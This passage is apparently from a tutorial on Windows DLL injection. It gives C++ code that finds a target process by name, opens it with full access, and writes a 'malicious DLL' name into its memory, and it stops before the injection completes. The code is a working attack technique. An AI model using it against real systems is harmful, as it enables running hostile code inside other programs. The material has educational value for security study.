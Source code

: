 ```cpp
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printError("CreateToolhelp32Snapshot");
		return;
	}

	LPPROCESSENTRY32 processEntry = (LPPROCESSENTRY32)(&PROCESSENTRY32());
	processEntry->dwSize = sizeof(PROCESSENTRY32);
	if (Process32First(hSnapshot, processEntry) == 0) {
		printError("Process32First");
		CloseHandle(hSnapshot);
		return;
	}

	DWORD dwProcessID = 0;
	while (Process32Next(hSnapshot, processEntry) != 0) {
		wstring temp(processEntry->szExeFile);
		string name(temp.begin(), temp.end());
		if (!strcmp(name.c_str(), processName)) {                   // if process name matches, save process ID
			dwProcessID = processEntry->th32ProcessID;
			printf("FIND process ID of 0x%x for %s!!\nStarting injection\n", dwProcessID, name.c_str());
			break;
		}
	}

```

## Open process and write memory

We found our target process, now we need to get a handle of the process using [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess).

From this, we can allocate space in our target process’s virtual memory space and write the DLL name there.

Because the process has its own virtual memory, and the only way to use our malicious DLL is by writing the malicious DLL name into its own memory.

We can accomplish this using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

```cpp
	HANDLE hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessID);
	if (hVictimProcess == INVALID_HANDLE_VALUE) {
		printError("OpenProcess");
		CloseHandle(hSnapshot);
		return;
	}

	// Write dll name into virtual memory of the process
	LPVOID nameBuffer = VirtualAllocEx(hVictimProcess, NULL, strlen(dllFileName), MEM_COMMIT, PAGE_READWRITE);
	if (!nameBuffer) {
		printError("VirtualAllocEx");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}

	if (!WriteProcessMemory(hVictimProcess, nameBuffer, dllFileName, strlen(dllFileName), NULL)) {
		printError("WriteProcessMemory");
		CloseHandle(hVictimProcess);
```